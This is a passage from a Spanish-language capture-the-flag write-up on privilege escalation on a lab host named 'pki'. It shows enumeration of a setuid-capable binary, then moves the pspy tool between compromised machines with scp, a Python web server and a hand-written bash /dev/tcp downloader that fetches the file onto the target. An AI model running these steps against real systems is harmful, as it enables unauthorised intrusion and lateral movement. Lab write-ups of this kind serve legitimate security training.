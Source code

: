 ### Escalada Privilegios

* * *

Listamos contenido de la carpeta que hemos accedido y vemos un `index.php`, listamos su contenido. Vemos un binario `ersatool`, listando capabilities vemos que tiene `cap_setuid+eip`

```bash
www-data@pki:~/html$ ls -l
total 8
-rw-r--r-- 1 root     root      174 Apr  4  2020 index.php
drwxr-xr-x 2 www-data www-data 4096 Sep 20 14:30 uploads
www-data@pki:~/html$ cat index.php 
<?php
header('X-Powered-By: PHP-FPM/7.1');
//cn needs to be parsed!!!
$cn=preg_replace("/[^A-Za-z0-9 ]/", '',$_GET['cn']);
echo passthru("/usr/bin/ersatool create ".$cn);
?>
www-data@pki:~/html$ ls -l /usr/bin/ersatool
-rwxr-xr-x 1 root root 22496 Jun 21  2021 /usr/bin/ersatool
www-data@pki:~/html$ getcap /usr/bin/ersatool
/usr/bin/ersatool = cap_setuid+eip
```

Nos decargamos la herramienta `pspy`. Primero debemos subirla a la máquina `web` y de ahí mediante un curl en bash la subimos a la máquina `pki`

```bash
#MAQUINA ATACANTE
❯ scp -P 2222 -i id_rsa pspy64 www-data@10.10.10.246:/tmp/pspy
```

```bash
#MAQUINA WEB
www-data@web:/tmp$ ls
nc  pspy  xdebug.log
www-data@web:/tmp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```bash
#MAQUINA PKI
www-data@pki:/tmp$ function __curl() {
>   read proto server path <<<$(echo ${1//// })
>   DOC=/${path// //}
>   HOST=${server//:*}
>   PORT=${server//*:}
>   [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
> 
>   exec 3<>/dev/tcp/${HOST}/$PORT
>   echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
>   (while read line; do
>    [[ "$line" == $'\r' ]] && break
>   done && cat) <&3
>   exec 3>&-
> }
www-data@pki:/tmp$ __curl http://192.168.254.2:8080/pspy > pspy
www-data@pki:/tmp$ file pspy
pspy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

